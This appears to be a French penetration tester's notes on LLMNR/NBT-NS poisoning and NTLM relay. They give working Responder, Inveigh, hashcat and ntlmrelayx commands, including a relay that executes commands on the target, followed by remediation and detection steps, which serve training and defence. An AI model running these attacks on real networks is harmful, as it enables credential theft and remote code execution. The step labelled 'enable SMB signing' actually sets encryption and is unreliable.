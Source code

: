 
- [ ] [[#1. LLMNR/NBT-NS Poisoning]]
- [ ] [[#2. Relay NetNTLM over SMB]]

[[#Remediation [T1557.001](https //attack.mitre.org/techniques/T1557/001)]]
[[#Detection]]

---
# 1. LLMNR/NBT-NS Poisoning

### Capture du challenge/response

Lancer responder pour capturer le challenge response

```sh
cd /usr/share/responder/ && sudo sed -i 's/On/Off/g' /usr/share/responder/Responder.conf && sudo python3 Responder.py -I eth0
```

Le hash capturé peut être bruteforce avec [[HASHCAT]]

```shell
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt
```

## INVEIGH (Windows)

A lancer dans contexte administrateur

https://github.com/Kevin-Robertson/Inveigh

Powershell (plus maintenue)

```powershell
Set-ExecutionPolicy Bypass -Scope Process
```

```powershell
Import-Module .\Inveigh.ps1
```

```powershell
Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y
```

C#

```powershell
.\Inveigh.exe
```

Presser esc pour entrer/sortir du mode interactif

```
HELP
```

Afficher les challenges capturés

```
GET NTLMV2UNIQUE
```

Afficher les usernames

```
GET NTLMV2USERNAMES
```


---


# 2. Relay NetNTLM over SMB

> [!Important]
> Relaie le challenge/response NetNTLM capturé sur un partage SMB
> Exploite NetBIOS, LLMNR et MDNS
> La signature doit être désactivée sur le partage SMB cible

Résolution de nom microsoft

![[Pasted image 20250327220606.png]]
## RESPONDER

### Capture du challenge/response

Lancer responder pour capturer le challenge response

```sh
cd /usr/share/responder/ && sudo sed -i 's/On/Off/g' /usr/share/responder/Responder.conf && sudo python3 Responder.py -I eth0
```

Le hash capturé peut être bruteforce avec [[HASHCAT]]

```shell
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt
```

### Relai du challenge capturé

Lancer Multirelay en parrallèle vers tous les partages SMB

```bash
cd /usr/share/responder/tools/MultiRelay/ && python3 MultiRelay.py -t <ip_target> -u ALL
```

possible également avec impacket-ntlmrelayx

```shell
impacket-ntlmrelayx --no-http-server -smb2support -t 10.10.110.146
```

rce

```shell
impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.220.146 -c '<cmd>'
```



---
# Remediation [T1557.001](https://attack.mitre.org/techniques/T1557/001)


- Désactiver Netbios, LLMNR et MDNS
- Activer les signatures smb
- NDR
- Segmentation réseau


## Désactiver LLMNR par GPO

Computer Configuration --> Administrative Templates --> Network --> DNS Client
Activer "Turn off Multicast Name Resolution".


## Désactiver NBT-NS avec Script powershell

Créer script PowerShell suivant

```powershell
Set-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Services\NetBT\Parameters\Interfaces\tcpip_*' -Name NetbiosOptions -Value 2 -Verbose
```

Le configurer au démarrage sur les machines

- **Configuration ordinateur > Paramètres Windows > Scripts (démarrage/arrêt)**

## Désactiver MD par GPO

**1** - Accédez à : **Configuration ordinateur > Préférences > Paramètres Windows > Registre**

**2** - Effectuez un clic droit, puis sous "**Nouveau**" choisissez "**Élément Registre**".

- **Action** : Mettre à jour (même si cette valeur n'existe pas par défaut)
- **Ruche** : HKEY_LOCAL_MACHINE
- **Chemin d'accès de la clé** : SYSTEM\CurrentControlSet\Services\Dnscache\Parameters
- **Nom de valeur** : EnableMDNS
- **Type de valeur** : REG_DWORD
- **Données de valeur** : 0


## Activer la signature SMB sur les clients

```powershell
Set-SmbClientConfiguration -RequireEncryption $true
```

+ interessant -> https://www.it-connect.fr/sous-windows-11-les-acces-smb-vont-etre-proteges-contre-les-attaques-ntlm/

---
# Detection

https://www.praetorian.com/blog/a-simple-and-effective-way-to-detect-broadcast-name-resolution-poisoning-bnrp/

1. Monitorer le trafic sur les ports UDP 5355 et 137 si LLMNR et NBT-NS sont désactivés
2. Monitorer les changements de valeur DWORD sur EnableMulticast dans HKLM\Software\Policies\Microsoft\Windows NT\DNSClient
3. Surveiller les services/daemons nouvellement créés dans les journaux d'événements Windows pour les ID d'événements 4697 et 7045. Déployer un outil de détection du spoofing LLMNR/NBT-NS.
4. Surveiller le trafic réseau provenant de dispositifs matériels inconnus ou inattendus. Les métadonnées du trafic réseau local (telles que l'adressage MAC de la source) ainsi que l'utilisation de protocoles de gestion du réseau tels que DHCP peuvent être utiles pour identifier le matériel.